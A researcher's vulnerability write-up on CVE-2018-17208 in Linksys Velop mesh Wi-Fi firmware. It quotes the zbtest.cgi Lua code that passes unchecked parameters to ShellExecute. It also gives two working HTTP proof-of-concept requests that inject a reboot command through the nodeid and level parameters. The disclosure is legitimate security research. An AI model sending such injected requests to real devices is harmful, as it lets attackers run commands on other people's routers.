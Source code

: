 ```yaml
---
published: true
categories: [vulnerability,Linksys]
tags: [CVE-2018-17208]
---
```


### Affected Software
Firmware version:	The firmware version which I test is 1.1.2.185309
### Product Background
Velop is WHOLE HOMEMESH Wi-Fi system from LINKSYS. It allows users enjoy fast, nonstop Wi-Fi everywhere with Velop’s modular easy-to-use Wi-Fi Mesh system.
There are three categories from their official site :WHW0303,WHW0302,WHW0301. The differences between these three is the pack count: 1, 2 or 3. The system are the same.
### Vulnerability Details
CVE-2018-17208

Since this bug is very easy and there is another researcher has [published](https://langkjaer.com/velop.html) the anlysis, so I wont analyze it too much.

zbtest.cgi in /cgi-bin/ is a lua script and let's we take a look into it. The most interesting part starts from line 480:
~~~lua
-- Here is a some code that can control bulb
cmd = params["cmd"]
node_id = params["nodeid"]
level = params["level"]

if cmd == nil then
  node_id = nil
  start_zb_network()
  print("Run zbtest.cgi<br>")
elseif cmd == "permit" then
  permit_zb_network()
  print("Run permit command<br><br>")
elseif cmd == "rescan" then
  print("Run rescan command<br><br>")
  node_id = nil
elseif cmd == "remove" and node_id then
  print("Run remove command : "..node_id.."<br><br>")
  remove_bulbs(node_id)
  node_id = nil
elseif cmd == "on" and node_id then
  print("Run turn on command : "..node_id.."<br><br>")
  name = "/tmp/Belkin_settings/zbdev."..node_id..".state"
  ShellExecute("zbapitest on-off "..node_id.." 1 > "..name.." 2>&1")
  bulbs, err = table.load("/tmp/Belkin_settings/bulbs.tlb")
  bulbs[node_id].onoff = "1"
  table.save(bulbs, "/tmp/Belkin_settings/bulbs.tlb")
elseif cmd == "off" and node_id then
  print("Run turn off command : "..node_id.."<br><br>")
  name = "/tmp/Belkin_settings/zbdev."..node_id..".state"
  ShellExecute("zbapitest on-off "..node_id.." 0 > "..name.." 2>&1")
  bulbs, err = table.load("/tmp/Belkin_settings/bulbs.tlb")
  bulbs[node_id].onoff = "0"
  table.save(bulbs, "/tmp/Belkin_settings/bulbs.tlb")
elseif cmd == "level" and level and node_id then
  print("Run level ("..level..") command : "..node_id.."<br><br>")
  -- name = "/tmp/Belkin_settings/zbdev."..node_id..".state"
  -- ShellExecute("zbapitest level "..node_id.." "..level.." 0 > "..name.." 2>&1")
  ShellExecute("zbapitest level "..node_id.." "..level.." 0 1")
  bulbs, err = table.load("/tmp/Belkin_settings/bulbs.tlb")
  bulbs[node_id].level = level
  table.save(bulbs, "/tmp/Belkin_settings/bulbs.tlb")
end
~~~

We can deliver 3 parameters to the zbtest.cgi: cmd, nodeid and level. There are command injection problems in this code snippet.

- cmd with "remove", no check of node_id
- cmd with "on", no check of node_id
- cmd with "off", no check of node_id
- cmd with "level", no check of node_id and level

#### PoC
~~~http
GET /cgi-bin/zbtest.cgi?cmd=off&nodeid=|reboot| HTTP/1.1
Host: 192.168.1.1
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
DNT: 1
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: visited-index=true
Connection: close
~~~

~~~http
GET /cgi-bin/zbtest.cgi?cmd=level&nodeid=0x0&level=1|reboot| HTTP/1.1
Host: 192.168.1.1
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
DNT: 1
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: visited-index=true
Connection: close
~~~

### Timeline
~~~text
2018.04.04: Found the bug

2018-09-19: Another researcher published the bug with link: link](https://langkjaer.com/velop.html)
~~~